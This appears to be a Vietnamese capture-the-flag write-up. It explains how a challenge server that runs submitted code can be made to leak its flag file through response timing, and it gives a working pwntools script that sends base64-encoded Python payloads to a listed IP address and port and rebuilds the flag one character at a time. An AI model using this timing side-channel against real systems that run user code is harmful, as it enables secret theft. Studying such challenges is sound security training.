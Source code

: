 
Bài này khá là hay. Có thể giải theo cách timming attack. Đề bài yêu cầu ta phải nhập vào một program có thể chạy được nhiều ngôn ngữ để đọc file, máy chủ sẽ chạy file đó qua từng ngôn ngữ khác nhau cho tới khi thỏa mãn hết sẽ in ra flag. Nhưng việc code như vậy sẽ khá tốn công nên lợi dụng việc chương trình chạy code mà ta gửi để có thể lợi dựng điều đó để chạy một vài hàm leak ra thông tin gì đó về flag (ở đây nó leak ra dưới dạng thời gian phản hồi).

Khi ta gửi chương trình này:


```py
import time
flag = open('flag.txt', 'r').read()
time.sleep(ord(flag[{i}]) / 10)
```
Máy chủ sẽ chạy nó, trong khi nó vẫn thỏa mãn yêu cầu của sever và cũng leak cho chúng ta thông tin thêm về flag.

Từ đó, ta gửi yêu cầu nhiều lần lên lên máy chủ, mỗi lần đọc từng ký tự của flag khi đó chương trình sẽ tạm dừng chương trình một khoảng thời gian đúng bằng (ord(flag) / 10) nên ta tính toán khoảng thời gian chênh lệch là ta có flag ( trong đoạn code có bị trừ đi cho 2 là do một vài yếu tố mội trường như tốc độ mang, máy tính ảnh hưởng tới thời gian)

```py

import time
from base64 import *
from pwn import *

def main() -> None:

    flag = ""

    for i in range(100):

        code = f"""
import time
flag = open('flag.txt', 'r').read()
time.sleep(ord(flag[{i}]) / 10)
"""
        s = remote("94.237.63.93", 38070)

        s.recvuntil(b'Enter the program of many languages: ')
        start = time.time()
        s.sendline(b64encode(code.encode()))
        s.recvuntil(b'[+] Completed. Checking output')
        end = time.time()

        flag += chr(int((end - start)* 10) - 2)
        print(flag)

        s.close()

        if flag[-1] == "}":
            break

if __name__ == "__main__":
    main()

```
Một cách khá cũng khá hay mình tham khảo trên mạng. Mình viết một file thỏa mãn tất cả các ngôn ngữ ở trên.

